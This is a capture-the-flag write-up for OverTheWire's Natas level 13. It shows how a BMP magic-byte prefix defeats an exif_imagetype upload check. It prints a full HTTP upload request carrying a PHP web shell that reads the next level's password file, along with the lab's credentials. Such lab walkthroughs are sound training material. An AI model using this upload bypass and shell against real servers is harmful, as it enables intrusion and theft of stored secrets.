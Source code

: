 Natas 13

User: natas13

Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

This challenge is mostly the same as Level 12, although there is one change in the source code.

```
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image"; 
```

What this code does is check the magic bytes/first couple of bytes of a file match up with those usually found in common image files. The file header for one type of image file, a BMP file, is simply ``BMP``. So, if the file starts with BMP, the file is then seen as an image according to this function.

Once again, I intercepted the request with burpsuite and made the appropriate change from ``jpg`` to ``png``, and you can easily see the contents of the file I am uploading.

```
POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
Content-Length: 509
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Upgrade-Insecure-Requests: 1
Origin: http://natas13.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyQ0uFKnhclInCf3Z
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas13.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryyQ0uFKnhclInCf3Z
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundaryyQ0uFKnhclInCf3Z
Content-Disposition: form-data; name="filename"

0o7t5vxole.php
------WebKitFormBoundaryyQ0uFKnhclInCf3Z
Content-Disposition: form-data; name="uploadedfile"; filename="shell.php"
Content-Type: application/octet-stream

BMP<?php
$homepage = file_get_contents('/etc/natas_webpass/natas14');
echo $homepage;
?>
------WebKitFormBoundaryyQ0uFKnhclInCf3Z--
```
